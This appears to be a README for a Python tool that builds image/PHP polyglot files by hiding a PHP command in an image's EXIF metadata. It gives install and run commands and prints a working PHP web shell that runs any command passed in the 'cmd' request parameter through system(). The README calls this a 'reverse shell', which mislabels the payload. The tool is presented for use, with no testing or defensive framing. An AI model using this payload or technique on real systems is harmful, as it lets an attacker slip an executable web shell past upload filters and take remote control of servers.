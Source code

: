# Polyglot-Generator
First Polyglot Generator written in python (image file + php command)
* The PHP command is stored within the image’s EXIF metadata.

# Requierments
- Python 3
- PIL module (PIP)
- Image file
- php reverse shell command

# Set Up
## Install PIL module
```$ pip install Pillow piexif```

## Run the file
```$ python3 polyglotGenerator.py```

## Example of the PHP reverse shell command that can used
```$ <?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; } __HALT_COMPILER();?>```


